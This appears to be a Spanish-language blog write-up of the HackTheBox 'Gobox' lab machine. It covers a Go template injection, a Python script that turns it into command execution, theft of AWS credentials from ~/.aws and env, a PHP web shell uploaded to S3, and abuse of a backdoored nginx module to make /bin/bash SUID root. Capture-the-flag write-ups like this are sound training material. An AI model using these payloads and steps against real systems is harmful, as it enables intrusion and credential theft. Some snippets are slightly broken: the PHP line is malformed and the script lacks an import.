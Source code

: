 ```yaml
---
layout: post
title: Gobox
image: /assets/img/machines/axlle/axlle1.JPG
accent_image:
  background: url('/assets/img/guero.jpg') center/cover
  overlay: false
subtitle: "Easy Machine"
tags: [htb]
---
```


Vemos el puerto 80 y 8080, donde en el puerto 80 no encontramos nada interesante pero en el 8080 encontramos un login.

![imagen1](/assets/img/machines/gobox/gobox.png)

![imagen2](/assets/img/machines/gobox/gobox2.png)
En este punto vemos por medio de burpsuite que estamos en un servidor golang e intentamos un ssti.

![imagen3](/assets/img/machines/gobox/gobox3.png)

![imagen4](/assets/img/machines/gobox/gobox4.png)

Con un "{\{ . }\}" obtenemos un correo y una contraseña por lo que lo usamos en el login y dentro encontramos una función que nos permite mediante el input inyectar comandos.

```go
func (u User) DebugCmd (test string) string {
  ipp := strings.Split(test, " ")
  bin := strings.Join(ipp[:1], " ")
  args := strings.Join(ipp[1:], " ")
  if len(args) > 0{
    out, _ := exec.Command(bin, args).CombinedOutput()
    return string(out)
  } else {
    out, _ := exec.Command(bin).CombinedOutput()
    return string(out)
  }
}
```

Por el ssti nos permite llamar a objetos y funciones internas del código existente, por lo que pegamos la función y el comando para ejecutar comandos.

![imagen5](/assets/img/machines/gobox/gobox5.png)

En este punto para práctica nos montamos un script en python para poder ejecutar comandos más facilmente.

```python
from pwn import *
import os, requests, pdb, sys, signal, time

def def_handler(sig, frame):
    print("\n\nSaliendo...\n\n")
    sys.exit(1)


#Variables Globales
main_url = "http://10.10.11.113:8080/forgot/"

#CTRL+C
signal.signal(signal.SIGINT, def_handler)


def makerequest(command):
    data_post = {
    'email':"test@{\{ .DebugCmd " %s " }\}" % command
    }
    
    r = requests.post(main_url, data=data_post)

    output = ((re.findall(r'Email Sent To:(.*)\s+<button class',r.text, re.DOTALL))[0].replace("\n\n\n             ","\n")).replace("test@","")

    print(output)
    
if __name__ == '__main__':
    while True:
        command = input(">")
        command = command.strip()
        makerequest(command)      

```

Al hacer un `hostname -i` vemos que se llama `aws` por lo que procedemo a aplicar comando en aws. Nos encontramos credenciales en `.aws` y en `env` para que podamos conectarnos en nuestra máquina.

```shell
>cat ~/.aws/credentials
 [default]
aws_access_key_id=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
aws_secret_access_key=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz

>env
 HOSTNAME=aws
PWD=/opt/uhc
HOME=/root
AWS_SECRET_ACCESS_KEY=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
SHLVL=0
AWS_ACCESS_KEY_ID=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DEBIAN_FRONTEND=noninteractive
```

Nos conectamos desde nuestra máquina

```shell
>aws s3 ls
 2022-09-30 05:32:15 website

>aws s3 ls s3://website
                            PRE css/
2022-09-30 05:32:16    1294778 bottom.png
2022-09-30 05:32:15     165551 header.png
2022-09-30 05:32:15          5 index.html
2022-09-30 05:32:15       1803 index.php
```

Dentro de index.html vemos que dice test y yendo hacia la página principal y poniendo index.html nos pone test, por lo que podríamos subir un archivo para ejecutar comando en php.

```php
<? "<pre> .  shell_exec($_REQUEST['cmd']) . "</pre>;
```

Mediante `base64` nos pasamos el contenido lo ponemos en la máquina víctima.

```shell
>aws s3 cp /tmp/reverse.php s3://website/reverse.php
upload: ../../tmp/reverse.php to s3://website/reverse.php
```

![imagen6](/assets/img/machines/gobox/gobox6.png)

Nos entablamos una reverse shell y estamos dentro.

```shell
www-data@gobox:/etc/nginx/modules-enabled$ ls
50-backdoor.conf	      50-mod-http-xslt-filter.conf  50-mod-stream.conf
50-mod-http-image-filter.conf  50-mod-mail.conf
www-data@gobox:/etc/nginx/modules-enabled$ cat 50-backdoor.conf 
load_module modules/ngx_http_execute_module.so;
www-data@gobox:/etc/nginx/modules-enabled$ find / -name ngx_http_execute_module.so 2>/dev/null
/usr/lib/nginx/modules/ngx_http_execute_module.so
www-data@gobox:/etc/nginx/modules-enabled$ strings /usr/lib/nginx/modules/ngx_http_execute_module.so | grep ".run"
ippsec.run
```
Vemos que la máquina había sido vulnerada antes, y tiene un archivo `ngx_http_execute_module.so` buscando en google se ve que se puede ejecutar comandos con curl, pero al hacer un strings al archivo
observamos que hay un `ippsec.run` que sustituye al system.run en curl.

```shell
www-data@gobox:/etc/nginx/modules-enabled$ curl 'http://localhost:8000/?ippsec.run[whoami]'
root
www-data@gobox:/etc/nginx/modules-enabled$ curl "http://localhost:8000/?ippsec.run[chmod%204755%20%2fbin%2fbash]"
curl: (52) Empty reply from server
www-data@gobox:/etc/nginx/modules-enabled$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```
Hacemos un bash -p y estamos dentro como root.
